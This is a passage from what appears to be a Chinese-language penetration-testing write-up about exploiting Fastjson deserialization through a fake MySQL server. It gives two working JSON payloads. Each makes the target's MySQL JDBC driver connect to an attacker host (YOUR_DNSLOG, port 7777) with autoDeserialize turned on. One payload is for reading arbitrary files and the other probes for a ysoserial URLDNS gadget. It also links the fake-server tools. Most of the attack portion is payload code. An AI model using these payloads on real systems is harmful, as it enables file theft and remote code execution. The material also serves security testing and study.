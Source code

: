 既然触发了DNSLOG，那么接下来就可以搭建一个利用Mysql服务了，用到了下面这个项目，根据使用说明书进行使用  
  
  
python<3.8用这个https://github.com/fnmsd/MySQL_Fake_Server  
  
  
python3.8+用这个https://github.com/clown1ay/MySQL_Fake_Server  
  
  
首先进行文件读取，user指定要读取的文件  
  
```
{
  "@type": "java.lang.AutoCloseable",
  "@type": "com.mysql.jdbc.JDBC4Connection",
  "hostToConnectTo": "YOUR_DNSLOG",
  "portToConnectTo": 7777,
  "info": {
    "user": "win_ini",
    "password": "pass",
    "statementInterceptors": "com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor",
    "autoDeserialize": "true",
    "NUM_HOSTS": "1"
  },
  "databaseToConnectTo": "dbname",
  "url": ""
}
```  
  
本地和目标系统都读取不成功，本地  
mysql-connector-java为5.1.47  
  
![](https://mmbiz.qpic.cn/mmbiz_png/PJcQz9vmUicnYm6abVBnsc9gTr7fSnfYsnkUUbLdnu0Cl1leT3Q7pricbVgpiaKXfXu0ibJOJwbQHtE19Y0grK1B3A/640?wx_fmt=png&from=appmsg "")  
  
转战反序列化，先进行DNSURL利用链探测，反序列化操作是否成功  
```
{
  "@type": "java.lang.AutoCloseable",
  "@type": "com.mysql.jdbc.JDBC4Connection",
  "hostToConnectTo": "YOUR_DNSLOG",
  "portToConnectTo": 7777,
  "info": {
    "user": "yso_URLDNS_http://YOUR_DNSLOG",
    "password": "pass",
    "statementInterceptors": "com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor",
    "autoDeserialize": "true",
    "NUM_HOSTS": "1"
  },
  "databaseToConnectTo": "dbname",
  "url": ""
}
```  
  
本地演示  
  
![](https://mmbiz.qpic.cn/mmbiz_png/PJcQz9vmUicnYm6abVBnsc9gTr7fSnfYsXicjz4JQ6NOIo7WWvsK4KlibTicFwibpEkhXEPvODrsNGIy2Q11g7NUcWg/640?wx_fmt=png&from=appmsg "")  
  